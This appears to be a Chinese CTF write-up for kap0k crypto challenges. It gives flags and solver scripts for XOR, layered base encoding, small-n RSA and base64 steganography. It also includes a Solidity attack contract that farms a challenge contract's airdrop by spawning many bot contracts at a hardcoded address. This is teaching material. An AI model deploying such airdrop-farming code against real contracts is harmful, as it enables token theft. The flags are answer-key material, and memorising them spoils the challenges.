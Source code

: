 # Crypto-xor
flag的格式为kap0k{xxx}，如果你拿kap0k和给的密文的前五个字母异或，会发现结果都是0x7，那么只要用0x7和密文异或就可以得到flag

flag:kap0k{xor_with_7}

exp.py
```python
with open('result.txt','rb') as f:
    res = f.readline()
    res = res.encode('hex')
    res = [chr(int(res[i:i+2],16)^7) for i in range(0,len(res),2)]
    print ''.join(res)
```

# Crypto-贝斯家族2.0
其实这题就是base16,base32.base64连续加密了几次，那就一个一个套娃就行了
flag:kap0k{wow_base_family!}

exp.py
```python
import base64

with open('result.txt','rb') as f:
    res = f.readline()
    
    res = res.decode('hex')
    res = base64.b64decode(res)
    res = base64.b32decode(res)

    res = res.decode('hex')
    res = base64.b32decode(res)
    res = base64.b64decode(res)

    print res
```

# Crypto-RSA
就是一个简单的RSA，n很小，在线分解或者用yafu等工具分解，然后RSA解密之后将结果转为字符串即可
flag:kap0k{factor_the_n}

exp.py
```python
import gmpy2

p = 98764321234452424516546135693
q = 98764321234452424516546135813
n = q*p
e = 65537
c = 7538157316728892587460611224718700597719563799427693818960

phi_n = (p-1)*(q-1)
d = gmpy2.invert(e,phi_n)
flag = pow(c,d,n)

print hex(flag)[2:].decode('hex')
```

# Crypto-base64
题目说和AES没关系，其实仔细观察会发现每一行的base64结果解码再编码之后的值有可能和原来的值不一样，这就是base64隐写，所以去网上随便找个脚本梭一下即可

flag:kap0k{this_is_base64_stega_Ahhhhhhhhhhhh}

exp.py
```python
# -*- coding: utf-8 -*-
b64chars = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/'
with open('task.txt', 'rb') as f:
    bin_str = ''
    for line in f.readlines():
        stegb64 = ''.join(line.split())
        rowb64 =  ''.join(stegb64.decode('base64').encode('base64').split())
        offset = abs(b64chars.index(stegb64.replace('=','')[-1])-b64chars.index(rowb64.replace('=','')[-1]))
        equalnum = stegb64.count('=') #no equalnum no offset
        if equalnum:
            bin_str += bin(offset)[2:].zfill(equalnum * 2)
        print ''.join([chr(int(bin_str[i:i + 8], 2)) for i in xrange(0, len(bin_str), 8)]) #8 位一组
```

# Crypto-Airdrop
从名字就可以看出是个薅羊毛的题，依次调用gift->guess->airdrop->transfer即可薅羊毛。函数名都取得是可以直接反编译出来的函数名，自己根据反编译的结果复原一下代码然后薅羊毛即可。至于guess要猜的那个数字有很多获取的方法，比如用web3直接读，或者在线的一些网站也读的出来，这就靠自己去试了
flag:kap0k{Hello_world_eth}

attack.sol
```
pragma solidity ^0.4.24;

contract Rev {
    address owner;
    uint public guessnum = 43967777;
    mapping (address => uint) public balanceOf;
    mapping (address => uint) public gift;
    mapping (address => uint) public level;

    constructor() public {
        owner = msg.sender;
    }

    function backdoor(){
        require(msg.sender == owner);
        balanceOf[owner] = 50000
    }

    function gift() public {
        require(level[msg.sender] == 0);
        require(gift[msg.sender] == 0);

        level[msg.sender] += 1;
        gift[msg.sender] += 1;
    }

    function guess(uint value) public {
        require(level[msg.sender] == 1);
        require( guessnum == value);

        level[msg.sender] += 1;
    }

    function airdrop() public {
        require(level[msg.sender] == 2);

        level[msg.sender] += 1;
        balanceOf[msg.sender] += 100;
    }

    function transfer(address to, uint256 amount) public {
        require(level[msg.sender] == 3);
        require (balanceOf[msg.sender] >= amount);

        balanceOf[msg.sender] -= amount;
        balanceOf[to] += amount;    
    }

    event SendFlag(string b64email);
    
    function payforflag(string b64email) public {
        require (balanceOf[msg.sender] >= 50000);
        balanceOf[msg.sender] = 0;
        emit SendFlag(b64email);
    }
    
}

contract KongTouBot{
    constructor(address victim, address attack) public payable{
       Rev test = Rev(victim);
       test.gift();
       test.guess(43967777);
       test.airdrop();
       test.transfer(attack, 100);
    }
}


contract Ver{
    function attack(uint num) public {
        for(var i=0; i < num; i++){
            KongTouBot tmp = new KongTouBot(0x1D15BC176336D0A54ff94Cb3dBcBA3B6fE5e1030,msg.sender);
        }
    }
}
```